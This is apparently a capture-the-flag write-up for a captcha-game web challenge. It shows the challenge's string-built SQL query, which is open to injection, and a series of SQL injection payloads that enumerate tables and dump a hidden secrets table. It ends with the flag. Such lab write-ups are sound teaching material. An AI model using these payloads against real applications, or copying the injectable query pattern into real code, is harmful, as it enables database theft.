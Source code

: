 # Captcha Hell 1
<img width="700" height="570" alt="{4A8674FA-8823-46A6-8932-B7CC4E685738}" src="https://github.com/user-attachments/assets/e676bc29-69ac-47f2-bd7a-111097785684" />


### Description:

Can you prove that you are not a robot?

#### Hints:
Hint 1: The scoreboard is sus

Hint 2: This is how I fetch a single user in the scoreboard: cur.execute(f"SELECT * FROM scoreboard WHERE username = '{username}'")


#### Notes:
- The website is a game where you have to solve captchas for a hundred levels to prove you arent a robot.
- The captchas become increasingly harder for each level.
- There is a scoreboard where all users and their progress is shown.
- In the scoreboard you have the ability to check one specific user.
 
 
 
---
# Solution:

After looking around i found that in the scoreboard you can select one specific user, and that appears in the url as such: 

<img width="2078" height="604" alt="{C74AC4BA-78FA-4229-AE96-A2C23310CEC0}" src="https://github.com/user-attachments/assets/e0dd41db-332d-4ff9-98b6-78ce5ba20213" />

Here we see that there is a parameter called username which takes a username and then shows the information for that user.  
There could be a possiblity for a SQLI vulnerability here, so we test it:

<img width="2086" height="479" alt="{D01E3626-D10D-416D-81C2-27E9B09C7F81}" src="https://github.com/user-attachments/assets/2ea418bc-ea49-4c25-9a3b-706d4e9ce41b" />

And as you can see the payload is processed and shows the default user, that being user 1.

---

#### **Analysis:**

Discover that the query expexts 3 columns:  
"**' UNION SELECT NULL,NULL,NULL --**"


In an attempt to enumerate all the tables i use this, though only scoreboard appears:  
"**' UNION SELECT name, sql, NULL FROM sqlite_master WHERE type='table' --**"


Instead we specifically check if a table called secrets exists, and this shows a value at "User ID", proving that it does indeed exist:  
"**' UNION SELECT (SELECT count(*) FROM secrets), NULL, NULL --**"


Then we check what the tables colums contain:  
"**' UNION SELECT sql, name, NULL FROM sqlite_master WHERE name='secrets' --**"  

We get this back:  
**CREATE TABLE secrets (id INTEGER PRIMARY KEY, secret_key TEXT, secret_value TEXT)**  





Now we can use "**' UNION SELECT group_concat(secret_key||':'||secret_value,'|'), NULL, NULL FROM secrets --**" to dump all the contents:

<img width="2308" height="543" alt="{D486CF99-1BD1-4944-9EB1-6252321E1E07}" src="https://github.com/user-attachments/assets/5076d2da-69fa-471e-bd9d-ecc82830b9c2" />

Thus we are given the flag: **CTFkom{w0w_y0u_423_5q1_1nj3c710n_m45732}**

